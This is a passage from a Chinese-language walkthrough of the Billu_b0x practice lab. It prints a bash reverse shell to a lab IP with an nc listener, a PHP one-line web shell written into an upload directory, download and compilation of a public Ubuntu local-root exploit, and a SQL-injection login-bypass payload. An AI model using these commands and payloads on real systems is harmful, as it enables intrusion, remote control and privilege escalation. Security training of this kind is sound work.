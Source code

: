 用bash反弹shell`echo "bash -i >& /dev/tcp/192.168.160.129/4444 0>&1" | bash`需要将命令url编码然后发送

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-23.png)

编码完成后，在开启nc监听`nc -lvnp 4444`,然后再POST发送命令

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-24.png)

nc接收反弹shell成功

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-25.png)

找一个可写权限目录，写入一句话木马，以便蚁剑连接，方便提权exp文件的上传

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-26.png)

文件上传目录`uploaded_images`为写权限目录，进入该目录，写一个一句话木马：`echo '<?php eval()$_POST[aaa]);?>' >> 1.php`

蚁剑连接成功。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-27.png)

下载Ubuntu著名的本地提权漏洞exp：[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-28.png)

下载完后用蚁剑上传至目标机可写目录`uploaded_images`,

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-29.png)

上传成功

```shell
#赋予执行权限
chmod 777 37292.c
#编译exp
gcc 37292.c -o exp
#执行exp，提权至root
./exp
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/billub0x-30.png)

提权成功

### 思路三：构造注入

回到之前信息收集中的注入页面，也就是首页index.php,利用发现的文件包含漏洞，查看源码中过滤sql的方法，针对性构造sql注入

1、审计index.php源码，发现以下过滤规则：

```php
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
```

str_replace的作用是将字符串\' 替换为空，因此构造SQL注入登录payload时，必须含有\'字符串，否则会报错。urldecode的作用是将输入解码。

2、 常见的利用注入登录的payload是' or 1=1 -- 修改这个在最后增加\'，str_replace会将这个\'替换为空。

3、注入成功，payload是`' or 1=1 -- \'`；后面获取shell方法和上面实验相同。

